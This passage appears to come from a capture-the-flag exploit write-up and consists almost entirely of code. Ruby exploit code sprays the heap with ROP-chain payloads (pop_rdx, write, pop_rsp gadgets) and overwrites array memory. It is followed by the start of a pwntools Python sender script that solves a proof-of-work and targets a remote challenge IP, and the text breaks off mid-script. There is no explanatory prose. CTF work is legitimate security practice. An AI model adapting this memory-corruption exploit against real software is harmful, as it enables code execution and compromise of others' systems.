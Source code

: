 ```ruby
    payload+=p64($heapaddr+0x120)
    payload+=p64(pop_rdx)
    payload+=p64(0x40)
    payload+=p64(write)
    payload+=p64(exit0)
    payload=payload.ljust(0x100,"Z")
    payload+=p64($heapaddr+0x120)
    payload+=p64(0x40)
    payload=payload.ljust(0x150-0x14,"Z")
    payload+=p64(pop_rsp)
    payload=payload.ljust(0x150,"Z")
    payload+=p64($heapaddr)
    payload+=p64($heapaddr+0x150)
    payload+=p64(push_jump)
    payload=payload.ljust(payload_size,"X")
    spray_arr[i]=payload
    i+=1
end
i=$idx-0x90/4
payload=p64($heapaddr+0x150)*0x100
j=0
while j<payload.length do
    payload_u=u64(payload[j,j+8])
    $arr[i]=toint(payload_u&0xffffffff)
    $arr[i+1]=toint(payload_u>>32)
    i=i+2
    j=j+8
end

```

**sendexp.py**

```python
#!/usr/bin/env python
from __future__ import print_function
import sys, random, string, struct
from pwn import *
from hashlib import sha256

def proof_of_work_okay(chall, solution, hardness):
    h = sha256(chall.encode('ASCII') + struct.pack('<Q', solution)).hexdigest()
    return int(h, 16) < 2**256 / hardness

def random_string(length = 10):
    characters = string.ascii_letters + string.digits
    return ''.join(random.choice(characters) for _ in range(length))

def solve_proof_of_work(task):
    hardness, task = task.split('_')
    hardness = int(hardness)

    ''' You can use this to solve the proof of work. '''
    print('Creating proof of work for {} (hardness {})'.format(task, hardness))
    i = 0
    while True:
        if i % 1000000 == 0: print('Progress: %d' % i)
        if proof_of_work_okay(task, i, hardness):
            return i
        i += 1

local=0
ip="202.112.51.146"
if local==0:
```